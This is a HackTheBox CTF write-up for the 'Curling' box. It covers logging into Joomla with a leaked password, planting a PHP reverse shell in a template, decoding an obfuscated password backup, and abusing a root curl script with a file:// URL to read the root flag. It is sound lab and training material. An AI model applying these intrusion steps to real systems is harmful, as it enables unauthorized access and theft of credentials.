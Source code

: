 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-03-30-curling-hackthebox
tags:
- hackthebox
- joomla
- linux
- obfuscation
title: Curling @ HackTheBox
---
```


Curling is one of the easier boxes on [hackthebox.eu](https://www.hackthebox.eu), featuring getting a shell on joomla via template editing, getting a password from an obfuscated file and exploiting an insecure curl script.

## User Flag

We start by looking at port 80 and find a joomla based website called "Cewl Curling Site". Looking at source we see a hint at a file called "secret.txt", which contains a base64 string that decodes to the following:

```
Curling2018!
```

There are some posts on the website that have "Floris" as author, so we try to log into the application as "Floris:Curling2018!" which succeeds. Since we want to get to admin panel we log into "/administrator" and get to the joomla backend.

We can execute php code by editing the currently active templates "error.php". In order got get a shell we replace its contents with a [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and get a connection back.

In the home folder of Floris we find a password backup file called "password\_backup", which we download via nc to our box and analyze. It seems to be the output of the tool "xxd" on some binary file:

```
tmp cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

We remove the output around the bytes and convert it to binary, followed by a couple of extractions to get the contents:

```
cat password_backup | cut -d " " -f 2-9 | sed -e 's/ //g' | sed -e ':a;N;$!ba;s/\n//g' | xxd -r -p > out
out: bzip2 compressed data, block size = 900k

bzip2 -d out
file out.out
out.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size 141

binwalk -e out.out
...
cat 18
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
```

This looks like a password (`5d<wdCbdZu)|hChXll`) so we try to use it to ssh into the box as Floris and can read the user flag.

## Root Flag

Floris has a folder called "admin-area" in his home folder which contains two files called input and report, report being the source of the website we saw earlier and input looking like this:

```
url = "http:/127.0.0.1"
```

This suggests that the url in "input" is being used as a target for curl and that the output is being redirected to "report". We are able to read the root flag from "report" by changing input to point to it:

```
echo 'url = "file:///root/root.txt"' > input
wc -c report
33 report
```

Thanks to [L4mpje](https://www.hackthebox.eu/home/users/profile/29267) for creating this fun box.
